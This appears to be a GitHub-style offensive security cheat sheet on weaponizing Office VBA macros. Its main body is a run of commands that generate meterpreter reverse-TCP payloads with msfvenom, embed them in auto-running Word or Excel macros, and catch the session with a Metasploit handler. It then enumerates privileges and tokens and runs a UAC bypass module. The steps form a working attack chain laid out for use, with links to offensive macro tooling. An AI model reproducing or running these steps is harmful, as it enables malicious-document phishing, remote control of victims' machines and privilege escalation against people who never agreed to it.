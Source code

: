 
### ⇒ References in case you want to dig deeper:

1. https://www.automateexcel.com/
2. https://www.codecademy.com/learn/ext-courses/vba-getting-started-with-vba-in-excel
3. https://www.youtube.com/watch?v=zYWyPZDndVg
4. https://github.com/Tylous/Ivy {Tool}
5. https://github.com/infosecn1nja/MaliciousMacroMSBuild {Tool}

---

### VBA Macro Weaponization with MSFvenom and UAC Bypass.

```bash
# First Technique -> VBA-exe ...
# Show up all msfvenom formats :
	~$ msfvenom --list formats # You Will gives you all executable formats | we care in vba-exe and vba-psh (BC vba can cause some problems an newer versions)
	# -------------------------------------------
# Generating a VBA-exe :
	~$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.X.X LPORT=3535 -f vba-exe
	# Follow the output instractions, Copy and Paste the VBA code into the DOC you want.
# Take care of sub Workbook_Open == excel sheets AND Document_Open == Word Document
# The Encoded payload Section of the msfvenom output will inserted into the document Page :D !, For now ..
# You may find some error need to solve...
# -------------------------------------------
# Back to our attacker machine :
# Set Your Metasploit multihandler..
	~$ msfconsole -q # to avoid the banner
	msf6> use exploit/multi/handler
	msf6 exploit(multi/handler)> set payload windows/meterpreter/reverse_tcp
	msf6 exploit(multi/handler)> set LHOST 192.168.X.X
	msf6 exploit(multi/handler)> set LPORT=3535
	msf6 exploit(multi/handler)> run
# -------------------------------------------
# Back to Target System:
# Now Open the document and enable the macro ..
# If everything goes right you will get a meterpreter session...
# ==============================================================================
# Secound Technique -> **VBA-psh**
# Generating a **VBA-psh** Macro :
	~$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.X.X LPORT=3535 -e x86/shikata_ga_nai  -f vba**-psh**
	# => Exectlly the same process but without adding anything in the doc file page .. just the macro tab(blank word file)
# ==============================================================================
# Bypasing UAC and elevate our privilage Usign our meterpreter session. => get the system
# --------------------------------------
	meterpreter> shell # To get a shell on the target
	C:\Users\Admin\Desktop> whoami /priv # To list all your Privilages and the state ..
	C:\Users\Admin\Desktop> net localgroup administrators # To list al admin members and if we ware parrt of it
# Back to Your Meterpreter session :
	meterpreter> getpriv # To list all your priv again.
	meterpreter> load incognito
	meterpreter> list_tokens -u # to list all personation tokens | we dont ..
# Background this meterpreter sesstion to searching in metasploit..
	meterpreter> bg
	msf6 exploit(multi/handler)> search bypassuac # This will list all UAC Bypasses exploits
# Using dotnet_profiler
	msf6 exploit(windows/local/bypassuac_dotnet_profiler)> show options
	msf6 exploit(windows/local/bypassuac_dotnet_profiler)> set SESSION 2 # giving it your session
```